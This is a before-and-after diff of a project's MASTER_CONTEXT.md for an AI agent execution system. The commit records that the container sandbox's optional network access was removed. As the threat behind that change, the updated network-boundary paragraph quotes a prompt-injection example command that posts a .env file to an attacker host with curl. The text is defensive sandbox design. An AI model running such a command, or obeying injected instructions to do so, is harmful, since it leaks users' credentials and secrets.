

Before and after one commit to reedsha/aleth, a Markdown page: MASTER_CONTEXT.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Sync the manifest to Phase 28

```diff
--- a/MASTER_CONTEXT.md
+++ b/MASTER_CONTEXT.md
@@ -19,9 +19,9 @@
 
 ## 2. Immutable Ground Truth (Current Codebase State)
 
-**Status: Phases 5, 6, 6.5, 7, 7.5, 8, 8.1, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26 and 27 complete and verified.**
+**Status: Phases 5, 6, 6.5, 7, 7.5, 8, 8.1, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27 and 28 complete and verified.**
 
-**Test gate:** `python -m pytest` → **1207 passed, 22 skipped, 235 subtests** on Windows (no daemon there, so the container-backed tests skip); on the native Linux environment, where the daemon-backed tests actually run, **1223 passed, 5 skipped**. CI runs `-m "not llm"`, which deselects the one live-checkpoint test. `tools/verify_immutable_install.sh` passes: the wheel installs, the application tree is `chmod -R a-w`, and the kernel boots and runs a plan with nothing added or changed.
+**Test gate:** `python -m pytest` → **1209 passed, 22 skipped, 236 subtests** on Windows (no daemon there, so the container-backed tests skip); on the native Linux environment, where the daemon-backed tests actually run, **1225 passed, 5 skipped**. CI runs `-m "not llm"`, which deselects the one live-checkpoint test. `tools/verify_immutable_install.sh` passes: the wheel installs, the application tree is `chmod -R a-w`, and the kernel boots and runs a plan with nothing added or changed.
 Run from the `aleth/` directory; `pytest.ini` has `addopts = -q -n auto` (16 xdist workers).
 UI gate: `npm run lint` → depcruise clean (33 modules, 173 dependencies); `npm run build`; `npx playwright test` → **63 passed** against the built `dist/`. All three run in CI (`lint`, `test-ui`).
 
@@ -54,7 +54,7 @@ Verified: the Rust canonicaliser (`deepagents_core.prepare_plan_state`) preserve
 
 **Execution perimeter (`tools/docker_sandbox.py`) — Phase 8.** `tools/mcp_exec_server.py::run_workspace_command` and `tools/test_runner.py` run every command in a container: `--network=none`; `--user <uid>:<gid>` maps the **host** identity (`ALETH_SANDBOX_UID`/`_GID` override it where there is no POSIX uid); the workspace is the **only** host path, an OCI bind mount that is also the container's working directory; `--memory`/`--cpus`/`--pids-limit` cap resources; `--cap-drop=ALL` + `no-new-privileges`; the container is named and `--rm`, force-removed on timeout. Nothing is passed with `-e`/`--env-file`. The image is **`aleth-sandbox:latest`**, built from `docker/sandbox.Dockerfile` (Python 3.12 + pytest and the fundamental test utilities) and built once on first use when absent. An unreachable daemon or an image that cannot be provided raises `SandboxError` → a refusal, never a host run. `tools/sandbox.py` is deleted.
 
-**The network boundary — Phase 12.** `--network=none` is the **default** for every container, and the only way to widen it is the `net` capability, declared by the plan: `docker_sandbox.build_command(allow_network=…)` → `--network=bridge`, set from `MCPSessionContext._allow_network()` into the exec server's **own argv** (`--allow-network`). It is deliberately not a tool argument — a model that could pass `network=True` would have no boundary — and the engine's own session never declares it. `tests/test_chaos.py::NetworkIsolationTests` proves both halves against a live daemon: a default container's outbound connect fails with a network error, and one with the capability connects.
+**The network boundary — Phase 12, severed by Phase 28.** `--network=none` is unconditional, and there is no longer any way to widen it. Phase 12 made the default `--network=none` and gated `--network=bridge` behind a plan-declared `net` capability threaded to the exec server's own argv (`--allow-network`); Phase 28 **removed that escape**. Egress during tool execution is an exfiltration primitive -- a prompt injection can run `curl -d @.env https://attacker.com` -- and "the plan declared it" is not a mitigation. `docker_sandbox.SANDBOX_NETWORK` is the constant, `build_command`/`run_isolated` have no parameter for it, and a plan that still declares `net` is **told** it has no effect rather than silently downgraded. A run that needs a package installed installs it before the loop starts. `tests/test_chaos.py::NetworkIsolationTests` proves it against a live daemon: a container cannot reach the network, and declaring the capability does not change that.
 
 **Resource bounding — Phase 13.** Every container runs under a **bounded** hardware budget: `--memory`/`--memory-swap` at 512 MB, `--cpus` at 1.0 and `--pids-limit` at 64 by default. The bound is enforced by construction, not convention -- `docker_sandbox.build_command` clamps `memory_mb`/`cpus` to `MAX_MEMORY_MB` (8192) and `MAX_CPUS` (4.0) itself, so no caller can ask for an unbounded container. The only way to widen it is the `heavy` capability (4096 MB / 2.0 CPU), declared by the plan and threaded to the exec server's own argv (`--resource-profile`) exactly like `net` -- never a tool argument, so a model cannot buy itself memory. A container the kernel's OOM killer ends returns 137; `run_isolated` marks it `oom_killed` and `mcp_exec_server` writes `outcome = 'OOM_KILLED'` into `execution_telemetry` (the ledger gained an `outcome` column via a guarded `ALTER`), so the engine can tell a memory leak from a test failure instead of re-queuing the node. `tests/test_chaos.py::OomResilienceTests` proves it against a live daemon: a 64 MB container running a 1 GB allocation dies in seconds, the host survives, and the ledger records 137/`OOM_KILLED`.
 
@@ -120,7 +120,7 @@ Established and **done**:
 | 8.1 | Cross-process lock around embedder weight loading | **Complete** |
 | 10 | Chaos engineering & IPC brutality: bounded stream drain, process-group purge, env sanitization | **Complete** |
 | 11 | Telemetry & immutable deployment: forensic ledger, plan-pair split, read-only wheel proof | **Complete** |
-| 12 | Network egress & container hardening: `--network=none` default, plan-declared `net` capability | **Complete** |
+| 12 | Network egress & container hardening: `--network=none` default (the plan-declared `net` escape was **removed** in Phase 28) | **Complete** |
 | 13 | Resource bounding & OOM protection: 512 MB/1 CPU default, bounded profiles, `OOM_KILLED` telemetry | **Complete** |
 | 14 | API gateway: typed loopback operations, intent queue, SSE, read-only telemetry | **Complete** |
 | 15 | Frontend cutover: HTTP client + EventSource, pywebview bridge demolished | **Complete** |
```
Also changed, not shown: other parts of MASTER_CONTEXT.md (+6 -3 lines), HANDOFF.md (+27 -8 lines).
